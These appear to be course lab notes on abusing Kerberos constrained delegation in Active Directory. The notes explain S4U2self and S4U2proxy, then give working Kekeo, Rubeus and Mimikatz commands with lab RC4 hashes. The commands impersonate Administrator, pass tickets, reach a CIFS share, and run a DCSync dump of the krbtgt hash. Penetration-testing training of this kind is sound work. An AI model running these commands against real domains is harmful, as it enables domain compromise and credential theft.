 
# Constrained Delegation

• Constrained Delegation when enabled on a service account, allows access only to specified services on specified computers as a user. 

• A typical scenario where constrained delegation is used - A user authenticates to a web service without using Kerberos and the web service makes requests to a database server to fetch results based on the user's authorization. 

• To impersonate the user, Service for User (S4U) extension is used which provides two extensions: 

– Service for User to Self (S4U2self) - Service for User to Self (S4U2self) - Allows a service to obtain a forwardable TGS to itself on behalf of a user with just the user principal name without supplying a password. The service account must have the TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION – T2A4D UserAccountControl attribute. 

– Service for User to Proxy (S4U2proxy) - Allows a service to obtain a TGS to a second service on behalf of a user. Which second service? This is controlled by msDS-AllowedToDelegateTo attribute. This attribute contains a list of SPNs to which the user tokens can be forwarded.

## Constrained Delegation with Protocol Transition

![[Pasted image 20230106213749.png]]

• A user - Joe, authenticates to the web service (running with service account websvc) using a non-Kerberos compatible authentication mechanism. 

• The web service requests a ticket from the Key Distribution Center (KDC) for Joe's account without supplying a password, as the websvc account. 

• The KDC checks the websvc userAccountControl value for the TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION attribute, and that Joe's account is not blocked for delegation. If OK it returns a forwardable ticket for Joe's account (S4U2Self). 

• The service then passes this ticket back to the KDC and requests a service ticket for the CIFS/dcorpmssql.dollarcorp.moneycorp.local service. 

• The KDC checks the msDS-AllowedToDelegateTo field on the websvc account. If the service is listed it will return a service ticket for dcorp-mssql (S4U2Proxy). 

• The web service can now authenticate to the CIFS on dcorpmssql as Joe using the supplied TGS.

##### To abuse constrained delegation in above scenario, we need to have access to the websvc account. If we have access to that account, it is possible to access the services listed in msDS-AllowedToDelegateTo of the websvc account as ANY user.

#### Enumerate users and computers with constrained delegation enabled
```powershell
# Using PowerView (dev) 
Get-DomainUser –TrustedToAuth
Get-DomainComputer –TrustedToAuth

# Using ActiveDirectory module: 
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo
```

#### Using asktgt from Kekeo, we request a TGT (steps 2 & 3 in the diagram): 
```cmd
kekeo# tgt::ask /user:websvc /domain:dollarcorp.moneycorp.local /rc4:cc098f204c5887eaa8253e7c2749156f
```

#### Using s4u from Kekeo, we request a TGS (steps 4 & 5): 
```powershell
tgs::s4u /tgt:TGT_websvc@DOLLARCORP.MONEYCORP.LOCAL_krbtgt~dollarcorp.moneycorp.local@DOLLARCORP.MONEYCORP.LOCAL.kirbi /user:Administrator@dollarcorp.moneycorp.local /service:cifs/dcorp-mssql.dollarcorp.moneycorp.LOCAL
```

#### Pass the ticket
```powershell 
Invoke-Mimikatz -Command '"kerberos::ptt TGS_Administrator@dollarcorp.moneycorp.local@DOLLARCORP.MONEYCORP.LOCAL_cifs~dcorpmssql.dollarcorp.moneycorp.LOCAL@DOLLARCORP.MONEYCORP.LO CAL.kirbi"' 

ls \\dcorp-mssql.dollarcorp.moneycorp.local\c$

# With Rubeus, We are requesting a TGT and TGS' in a single command
.\Rubeus.exe s4u /user:websvc /rc4:cc098f204c5887eaa8253e7c2749156f /impersonateuser:Administrator /msdsspn:"CIFS/dcorpmssql.dollarcorp.moneycorp.LOCAL" /ptt 

ls \\dcorp-mssql.dollarcorp.moneycorp.local\c$
```

### Different Services

#### Using asktgt from Kekeo, we request a TGT for dcorp-adminsrv:
```powershell
tgt::ask /user:dcorp-adminsrv$ /domain:dollarcorp.moneycorp.local /rc4:1fadb1b13edbc5a61cbdc389e6f34c67
```

#### Using s4u from Kekeo_one (no SNAME validation):
```powershell
tgs::s4u /tgt:TGT_dcorpadminsrv$@DOLLARCORP.MONEYCORP.LOCAL_krbtgt~dollarcorp.moneycorp.local@DOLLARCORP.MONEYCORP.LOCAL.kirbi /user:Administrator@dollarcorp.moneycorp.local /service:time/dcorpdc.dollarcorp.moneycorp.LOCAL|ldap/dcorpdc.dollarcorp.moneycorp.LOCAL
```

#### Using mimikatz:
```powershell
Invoke-Mimikatz -Command '"kerberos::ptt TGS_Administrator@dollarcorp.moneycorp.local@DOLLARCORP.MONEYCORP.LOCAL_ldap~dcorpdc.dollarcorp.moneycorp.LOCAL@DOLLARCORP.MONEYCORP.LOCAL _ALT.kirbi"'

# Dump hashes with DCSync since we have exported TGS
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'

# With Rubeus
.\Rubeus.exe s4u /user:dcorp-adminsrv$ /rc4:1fadb1b13edbc5a61cbdc389e6f34c67 /impersonateuser:Administrator /msdsspn:"time/dcorpdc.dollarcorp.moneycorp.LOCAL" /altservice:ldap /ptt

# Dump hashes with DCSync since we have TGS from Rubeus
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```

# Learning Objective 18

• Enumerate users in the domain for whom Constrained Delegation is enabled. 
– For such a user, request a TGT from the DC and obtain a TGS for the service to which delegation is configured. 
– Pass the ticket and access the service as DA. 

• Enumerate computer accounts in the domain for which Constrained Delegation is enabled. 
– For such a user, request a TGT from the DC.
– Use the TGS for executing the DCSync attack.